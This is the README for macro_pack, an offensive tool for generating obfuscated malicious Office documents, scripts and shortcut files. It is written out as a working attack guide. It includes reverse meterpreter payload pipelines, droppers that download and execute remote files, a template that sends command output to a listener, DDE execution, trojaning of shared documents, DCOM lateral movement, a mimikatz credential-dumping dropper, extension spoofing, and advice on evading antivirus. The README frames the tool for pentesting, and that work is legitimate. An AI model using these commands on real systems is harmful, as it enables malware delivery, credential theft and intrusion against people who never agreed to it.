





# macro\_pack

## Short description

The macro\_pack is a tool used to automatize obfuscation and generation of retro formats such as MS Office documents or VBS like format.
Now it also handles various shortcuts formats.  
This tool can be used for redteaming, pentests, demos, and social engineering assessments.
macro\_pack will simplify antimalware solutions bypass and automatize the process from vba generation to final Office document generation.  
It is very simple to use:
* No configuration
* Everything can be done using a single line of code
* Generation of majority of Office formats and VBS based formats
* Advanced VBA macro attacks as well as DDE attacks

The tool is compatible with payloads generated by popular pentest tools (Metasploit, Empire, ...).
It is also easy to combine with other tools as it is possible to read input from stdin and have a quiet output to another tool.
This tool is written in Python3 and works on both Linux and Windows platform.

**Note:** Windows platform with the right MS Office applications installed is required for Office documents automatic generation or trojan features.

<p align="center"></p>

### Obfuscation

The tool will use various obfuscation techniques, all automatic.
Obfuscation features are compatible with all VBA and VBS based format which can be generated by macro\_pack.  
Basic obfuscation (-o option) includes:
* Renaming functions
* Renaming variables
* Removing spaces
* Removing comments
* Encoding Strings


Note that the main goal of macro\_pack obfuscation is not to prevent reverse engineering, it is to prevent antivirus detection.


### Generation

Macro Pack can generate several kind of MS office documents and scripts formats.
The format will be automatically guessed depending on the given file extension.
File generation is done using the option --generate or -G.  
Macro Pack pro version also allow to trojan existing Office files with option --trojan or -T

Ms Office Supported formats are:
* MS Word 97 (.doc)
* MS Word (.docm, .docx, .dotm)
* MS Excel 97 (.xls)
* MS Excel (.xlsm, .xslx, .xltm)
* MS PowerPoint (.pptm, .potm)
* MS Access (.accdb, .mdb)
* MS Visio 97 (.vsd)
* MS Visio (.vsdm)
* MS Project (.mpp)

Scripting (txt) supported formats are:  
* VBA text file (.vba)
* VBS text file (.vbs).
* Windows Script File (.wsf)
* Windows Script Components scriptlets (.wsc, .sct)
* HTML Applications (.hta)
* XSLT Stylesheet (.xsl) (Yes MS XSLT contains scripts ^^)

Shortcuts/Shell supported formats are:
* Shell Link (.lnk)
* Explorer Command File (.scf)
* URL Shortcut (.url)
* Groove Shortcuts (.glk)
* Settings Shortcuts (.settingcontent-ms)
* MS Library (.library-ms)
* Setup Information (.inf)
* Excel Web Query (.iqy)

Note that all scripting and shortcuts formats (except LNK) can be generated on Linux version of macro\_pack as well.


### Ethical use

The macro\_pack tool shall only be used by pentester, security researchers, or other people with learning purpose. 
I condemn all use of security tools for unethical actions (weather these ar legal or illegal).
I know this will not prevent usage by malicious people and that is why all features are not publicly released.

### About pro mode...
You may notice that not all part of macro\_pack is available. Only the community version is available online.
I fear the features in the pro version are really too much "weaponizing" the process and I do not want it available to all script kiddies out there.
The pro mode includes features such as:
* Advance antimalware bypass
* ASR and AMSI bypass
* VBOM security bypass
* Self decoding VBA
* MS Office persistance
* Trojan existing MS Office documents
* Lateral movement using DCOM objects
* Anti-debug using http://seclists.org/fulldisclosure/2017/Mar/90

For now I do not plan to release or sell this pro version however if you are really interested I can share code in the next case:
* You significantly contribute to macro\_pack on GitHub + I need to know your identity


## Run/Install

### Run Windows binary
1) Get the latest binary from https://github.com/sevagas/macro_pack/releases/
2) Download binary on PC with genuine Microsoft Office installed.
3) Open console, CD to binary dir and call the binary, simple as that!
```bash
macro_pack.exe --help
```

### Install from sources
Download and install dependencies:
```bash
git clone https://github.com/sevagas/macro_pack.git
cd macro_pack
pip3 install -r requirements.txt
```

The tool is in python 3 so just start with with your python3 install. ex:
```bash
python3 macro_pack.py  --help
# or
python macro_pack.py --help # if python3 is default install
```
  
If you want to produce a standalone exe using pyinstaller:  
* Install pyinstaller: pip install pyinstaller
* Install PyCrypto at http://www.voidspace.org.uk/python/pycrypto-2.6.1/  
* Double-click on the "build.bat" script on a Windows machine.  

The resulted macro\_pack.exe will be inside the **bin** directory.  

**Note:** pycrypto is not available for python after 3.4. If you want pyinstaller encryption, do not use latest python version.


## Some examples

### macro\_pack community

- Obfuscate the vba file generated by msfvenom and put result in a new vba file.
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -G meterobf.vba
```

- Obfuscate Empire stager vba file and generate a MS Word document: 
```bash
macro_pack.exe -f empire.vba -o -G myDoc.docm
```

- Generate an MS Excel file containing an obfuscated dropper (download payload.exe and store as dropped.exe)
```bash
echo "https://myurl.url/payload.exe" "dropped.exe" |  macro_pack.exe -o -t DROPPER -G "drop.xlsm" 
```

- Create a word 97 document containing an obfuscated VBA reverse meterpreter payload inside a share folder: 
```bash
msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -G \\REMOTE-PC\Share\meter.doc   
```

- Download and execute Empire Launcher stager without powershell.exe by using DROPPER_PS template
```bash
# 1 Generate a fiez containing Empire lauchcher 
# 2 Make that file available on web server, ex with netcat:
{ echo -ne "HTTP/1.0 200 OK\r\n\r\n"; cat empire_stager.cmd; } | nc -l -p 6666 -q1
# 3 Use macro\_pack  to generate DROPPER_PS payload in Excel file
echo http://10.5.5.12:6543/empire_stager.cmd | macro_pack.exe -o -t DROPPER_PS -G join_the_empire.xls
# 4 When executed on target, the macro will download PowerShdll, run it with rundll32, and download and execute stager.
```

- Execute calc.exe via Dynamic Data Exchange (DDE) attack
```bash
echo calc.exe | macro_pack.exe --dde -G calc.xslx
```

<p align="center"></p>


- Download and execute file via powershell using Dynamic Data Exchange (DDE) attack
```bash
# 1 Change the target file URL in resources\community\ps_dl_exec.cmd
# 2 Embed download execute cmd in document
macro_pack.exe --dde -f ..\resources\community\ps_dl_exec.cmd -G DDE.doc
```

- Run command (notepad.exe) via Excel web query file and DDE
```bash
# 1 Create dde.dat file with next content
=cmd|' /c notepad.exe'!A1
# 2 Host dde.dat on webserver, ex. using macro_pack -l
# 3 Generate .iqy file
macro_pack.exe -G dde.iqy
```

<p align="center"></p>


 - Generate obfuscated Meterpreter reverse TCP VBS file and run it  
 ```batch
# 1 Generate obfuscated VBS based on meterpreter template as well as Metasploit resource file
echo <ip> <port> | macro_pack.exe -t METERPRETER -o -G meter.vbs
# 2 On attacker machine Setup meterpreter listener
msfconsole -r meterpreter.rc
# 3 run VBS file with wscript (run 32bit wscript because meterpreter payload is 32bit)
%windir%\SysWoW64\wscript meter.vbs

 ```


- Generates obfuscated HTA file which executes "systeminfo" and returns result to another macro_pack listening on 192.168.0.5
```batch
# 1 Generate HTA file with CMD template
echo http://192.168.0.5:1234/a "systeminfo" | macro_pack.exe -t CMD -o -G info.hta
# 2 On 192.168.0.5 open macro_pack as http listener
macro_pack.exe -l . --port=1234
# 3 run hta file with mshta
mshta.exe full/path/to/info.hta
```


- Generate url shortcut which executes a local hta file when you click on it
```batch
 echo "file://C:\Users\username\Desktop\hello.hta" | macro_pack.exe -G yop.url
```


- Generate lnk shortcut which executes a cmd running calc.exe with calc.exe icon
```batch
 echo '"c:\Windows\System32\cmd.exe /c calc.exe" "calc.exe"' | macro_pack.exe -G calc.lnk
```


 - Generate obfuscated Meterpreter reverse https TCP SCT file and run it  
 ```batch
# 1 Generate obfuscated VBS scriptlet and Metasploit resource file based on meterpreter reverse HTTPS template
echo <ip> <port> | macro_pack.exe -t WEBMETER -o -G meter.sct
# 2 On attacker machinge Setup meterpreter listener
msfconsole -r webmeter.rc
# 3 run scriptlet with regsvr32 
regsvr32 /u /n /s /i:meter.sct scrobj.dll


 ```


### macro\_pack pro

- Trojan the existing shared "report.xlsm" file with a dropper. Use anti-AV and anti-debug features.
```bash
echo "http://10.5.5.12/drop.exe" "dropped.exe" | macro_pack.exe -o -t DROPPER2 --trojan --av-bypass --stealth  -G "E:\accounting\report.xls"   
```

- Generate a Word file containing VBA self encoded x64 reverse meterpreter VBA payload (will bypass most AV). Keep-alive is needed because we need meterpreter to stay alive before we migrate.
```bash
msfvenom.bat -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba |  macro_pack.exe -o --vbom-encode --keep-alive  -G  out.docm
```

- Trojan a PowerPoint file with a reverse meterpreter. Macro is obfuscated and mangled to bypass AMSI and most antiviruses. 
```bash
msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba |  macro_pack.exe -o --av-bypass --trojan -G  hotpics.pptm
```

- Execute a macro on a remote PC using DCOM
```batch
REM Step 1: Ensure you have enough rights
net use  \\192.168.0.8\c$ /user:domain\username password

REM Step 2: Generate document, for example here, meterpreter reverse TCP Excel file
echo 192.168.0.5 4444 | macro_pack.exe -t METERPRETER -o -G meter.xlsm
REM Step 3: Copy the document  somewhere on remote share
copy meter.xlsm "\\192.168.0.8\c$\users\username\meter.xlsm"
REM Step 4: Execute!
macro_pack.exe --dcom="\\192.168.0.8\c$\users\username\meter.xlsm"

REM Step 2 to 4 in one step:
echo 192.168.0.5 4444 | macro_pack.exe -t METERPRETER -o -G "\\192.168.0.8\c$\users\username\meter.xlsm" --dcom="\\192.168.0.8\c$\users\username\meter.xlsm"

```


## All available options

### General options:
```
    -f, --input-file=INPUT_FILE_PATH A VBA macro file or file containing params for --template option 
        If no input file is provided, input must be passed via stdin (using a pipe).
        
    -q, --quiet \tDo not display anything on screen, just process request. 
    
    -p, --print \tDisplay result file on stdout (will display VBA for Office formats)
        Combine this option with -q option to pipe result into another program
        ex: cat input_file.vba | macro_pack.exe -o -G obfuscated.vba -q -p | another_app
    
    -o, --obfuscate \tSame as '--obfuscate-form --obfuscate-names --obfuscate-strings'
    --obfuscate-form\tModify readability by removing all spaces and comments in VBA
    --obfuscate-strings\tRandomly split strings and encode them
    --obfuscate-names \tChange functions, variables, and constants names
    
    -s, --start-function=START_FUNCTION   Entry point of macro file 
        Note that macro_pack will automatically detect AutoOpen, Workbook_Open, or Document_Open  as the start function
        
    -t, --template=TEMPLATE_NAME    Use VBA template already included in macro_pack.exe.
        Available templates are: HELLO, CMD, REMOTE_CMD, DROPPER, DROPPER2, DROPPER_PS, DROPPER_DLL, METERPRETER, WEBMETER, EMBED_EXE, EMBED_DLL 
        Help for template usage: macro_pack.exe -t help
         
    -G, --generate=OUTPUT_FILE_PATH. Generates a file. Will guess the format based on extension.
        Supported Ms Office extensions are: doc, docm, docx, dotm, xls, xlsm, xslx, xltm, pptm, potm, vsd, vsdm, accdb, mdb, mpp.
        Note: Ms Office file generation requires Windows OS with right MS Office application installed.
        Supported Visual Basic scripts extensions are: vba, vbs, wsf, wsc, sct, hta, xsl.
        Supported shortcuts/shell extensions are: lnk, scf, url, glk, settingcontent-ms, library-ms, inf, iqy
    
    -e, --embed=EMBEDDED_FILE_PATH Will embed the given file in the body of the generated document.
         Use with EMBED_EXE template to auto drop and exec the file or with EMBED_DLL to drop/load the embedded dll.
    
    --dde  Dynamic Data Exchange attack mode. Input will be inserted as a cmd command and executed via DDE
         DDE attack mode is not compatible with VBA Macro related options.
         Usage: echo calc.exe | %s --dde -G DDE.docx
         Note: This option requires Windows OS with genuine MS Office installed. 
    
    --run=FILE_PATH Open document using COM to run macro. Can be useful to bypass whitelisting situations.
        This will trigger AutoOpen/Workbook_Open automatically. 
        If no auto start function, use --start-function option to indicate which macro to run. 
        This option is only compatible with Ms Office formats.
           
     --uac-bypass Execute payload with high privileges if user is admin. Compatible with next templates: CMD, DROPPER, DROPPER2, DROPPER_PS, EMBED_EXE      
     
     --unicode-rtlo=SPOOF_EXTENSION Inject the unicode U+202E char (Right-To-Left Override) to spoof the file extension when view in explorers.
        Ex. To generate an hta file with spoofed jpg extension use options: -G something.hta --unicode-rtlo=jpg
        In this case, windows or linux explorers will show the file named as: somethingath.jpg 
        
    -l, --listen=ROOT_PATH \t Open an HTTP server from ROOT_PATH listening on default port 80.

    -w, --webdav-listen=ROOT_PATH \tOpen a WebDAV server on default port 80, giving access to ROOT_PATH.
    
    --port=PORT \tSpecify the listening port for HTTP and WebDAV servers.

    -h, --help   Displays help and exit
           

```

### macro\_pack Pro only:
```   
    -b, --background    Run the macro in background (in another instance of office application)
    --vbom-encode   Use VBA self encoding to bypass antimalware detection and enable VBOM access (will exploit VBOM self activation vuln).
                  --start-function option may be needed.
    --av-bypass  Use various tricks  efficient to bypass most av (combine with -o for best result)
    --keep-alive    Use with --vbom-encode option. Ensure new app instance will stay alive even when macro has finished
    --persist       Use with --vbom-encode option. Macro will automatically be persisted in application startup path
                    (works with Excel documents only). The macro will then be executed anytime an Excel document is opened (even non-macro documents).
    -T, --trojan=OUTPUT_FILE_PATH   Inject macro in an existing MS office file. 
                    Supported files are the same as for the -G option.
                    Files will also be converted to approriate format, ex: pres.pptx will become pres.pptm
                    If file does not exist, it will be created (like -G option)
    --stealth      Anti-debug and hiding features
    --dcom=REMOTE_FILE_PATH Open remote document using DCOM for pivot/remote exec if psexec not possible for example.
                   This will trigger AutoOpen/Workboo_Open automatically. 
                   If no auto start function, use --start-function option to indicate which macro to run.
```


## Template usage
  
Templates can be called using  -t, --template=TEMPLATE_NAME combined with other options.  
Here are all the available templates.

            
### HELLO  
Just print a hello message and awareness about macro  
Give this template the name or email of the author   
  -> Example: ```echo "@Author" | macro_pack.exe -t HELLO -G hello.pptm```

### CMD
Execute a command 
Give this template a command line
  -> Example (pop calc.exe from and xslt file):  ```echo "calc.exe" | macro_pack.exe -t CMD -G cmd.xsl```
  
### REMOTE_CMD
Execute a command line and send result to remote http server  
Give this template the server url and the command to run  
  -> Example:  ```echo "http://192.168.0.5:7777" "dir /Q C:" | macro_pack.exe -t CMD -o -G cmd.doc``` 
   
```bash
# Catch result with any webserver or netcat
nc -l -p 7777
```
            
### DROPPER
Download and execute a file.  
Give this template the file url and the target file path  
  -> Example:  ```echo <file_to_drop_url> "<download_path>" | macro_pack.exe -t DROPPER -o -G dropper.xls```
  
        
### DROPPER2
Download and execute a file. File attributes are also set to system, read-only, and hidden.  
Give this template the file url and the target file path.  
  -> Example:  ```echo <file_to_drop_url> "<download_path>" | macro_pack.exe -t DROPPER2 -o -G dropper.xlsm```
   
        
### DROPPER_PS
Download and execute Powershell script using rundll32 (to bypass blocked powershell.exe).  
Note: This payload will download PowerShdll from Github.  
Give this template the url of the powershell script you want to run  
  -> Example:  ```echo "<powershell_script_url>" | macro_pack.exe -t DROPPER_PS -o -G powpow.doc```
 
 
### DROPPER_DLL
Download a DLL with another extension and run it using Office VBA  
  -> Example, load meterpreter DLL using Office:  
```batch
REM Generate meterpreter dll payload
msfvenom.bat  -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f dll -o meter.dll
REM Make it available on webserver, ex using netcat on port 6666
{ echo -ne "HTTP/1.0 200 OK\r\n\r\n"; cat meter.dll; } | nc -l -p 6666 -q1
REM Create OFfice file which will download DLL and call it
REM The DLL URL is http://192.168.0.5:6666/normal.html and it will be saved as .asd file
echo "http://192.168.0.5:6666/normal.html" Run | macro_pack.exe -t DROPPER_DLL -o -G meterdll.xls
```
        
### METERPRETER  
Meterpreter reverse TCP template using MacroMeter by Cn33liz.  
This template is CSharp Meterpreter Stager build by Cn33liz and embedded within VBA using DotNetToJScript from James Forshaw.  
Give this template the IP and PORT of listening mfsconsole  
  -> Example: ```echo <ip> <port> | macro_pack.exe -t METERPRETER -o -G meter.docm``` 
 
This template also generates a  meterpreter.rc file to create the Metasploit handler
  -> Example: ```msfconsole -r meterpreter.rc``` 
  

### WEBMETER  
Meterpreter reverse TCP template using VbsMeter by Cn33liz.  
This template is CSharp Meterpreter Stager build by Cn33liz and embedded within VBA using DotNetToJScript from James Forshaw.  
Give this template the IP and PORT of listening mfsconsole  
  -> Example: ```echo <ip> <port> | macro_pack.exe -t WEBMETER -o -G meter.vsd``` 

This template also generates a  webmeter.rc file to create the Metasploit handler
  -> Example: ```msfconsole -r webmeter.rc``` 


### EMBED_EXE    
        
Combine with --embed option, it will drop and execute (hidden) the embedded file.  
Optionally you can give to the template the path where file should be extracted  
If extraction path is not given, file will be extracted with random name in current path.   
 -> Example1: ```macro_pack.exe  -t EMBED_EXE --embed=%%windir%%\system32\calc.exe -o -G my_calc.vbs```  
 -> Example2: ```echo "path\\to\newcalc.exe" | macro_pack.exe -t EMBED_EXE --embed=%%windir%%\system32\calc.exe -o -G my_calc.doc```  
 
 
### EMBED_DLL
Combine with --embed option, it will drop and call a function in the given DLL
Give this template the name and parameters of function to call in DLL
-> Example1 : ```echo "main" | macro_pack.exe -t EMBED_DLL --embed=cmd.dll -o -G cmd.doc```
-> Example2 : ```echo "main log privilege::debug sekurlsa::logonpasswords exit" | macro_pack.exe -t EMBED_DLL --embed=mimikatz.dll -o -G mimidropper.hta```


## Efficiency

The various features were tested against locally installed Antimalware solutions as well as online service. I ran multiple tests with several kind of payloads and macro\_pack features.
A majority of antivirus will be evaded by the simple "obfuscate" option. Features available in pro mode generally ensure full AV bypass.

### Example with Empire VBA stager:

Here are the results of NoDistribute scanner for the regular Empire VBA stager
<p align="center"></p>

Here are the results with the macro\_pack -o (--obfuscate) option
<p align="center"></p>

**Warning:** Do not submit your samples to online scanner (ex VirusTotal), Its the best way to break your stealth macro.
I also suggest you do not submit to non reporting site such as NoDistribute. You cannot be sure what these sites will do with the data you submit. 
If you have an issue with macro\_pack AV detection you can write to us for advice or submit an issue or pull request.


## Relevant resources

Blog posts about hacking with MS Office, VBS,  and other retro stuff security:
 - https://subt0x11.blogspot.fr/2018/04/wmicexe-whitelisting-bypass-hacking.html
 - http://blog.sevagas.com/?My-VBA-Bot (write a full VBA RAT, includes how to bypass VBOM protection)
 - http://blog.sevagas.com/?Hacking-around-HTA-files  (run hta code in non-hta files and hta polyglots)
 - http://pwndizzle.blogspot.fr/2017/03/office-document-macros-ole-actions-dde.html
 - https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/ (About Dynamic Data Exchange attacks)
 - https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/
 - https://labs.mwrinfosecurity.com/blog/dll-tricks-with-vba-to-improve-offensive-macro-capability/
 - https://blog.quarkslab.com/analysis-of-ms16-104-url-files-security-feature-bypass-cve-2016-3353.html
 
 Other useful links:
 - https://github.com/p3nt4/PowerShdll (Run PowerShell with dlls only)
 - https://gist.github.com/vivami/03780dd512fec22f3a2bae49f9023384 (Run powershell script with PowerShdll VBA implementation)
 - https://enigma0x3.net/2016/03/15/phishing-with-empire/ (Generate Empire VBA payload)
 - https://github.com/EmpireProject/Empire
 - https://medium.com/@vivami/phishing-between-the-app-whitelists-1b7dcdab4279
 - https://www.metasploit.com/
 - https://github.com/Cn33liz/MacroMeter
 - https://github.com/khr0x40sh/MacroShop
 - https://docs.microsoft.com/en-us/dotnet/standard/data/xml/xslt-stylesheet-scripting-using-msxsl-script
 - https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-exploit-guard/attack-surface-reduction-exploit-guard


## Contact

Feel free to message me on my Twitter account [@EmericNasi](http://twitter.com/EmericNasi)  
Emails:
* emeric.nasi[ at ]sevagas.com  
* ena.sevagas[ at ]protonmail.com  


## License and credits

[The Apache License 2.0](https://www.apache.org/licenses/LICENSE-2.0.html)

Copyright 2017,2018 Emeric “Sio” Nasi ([blog.sevagas.com](http://blog.sevagas.com))


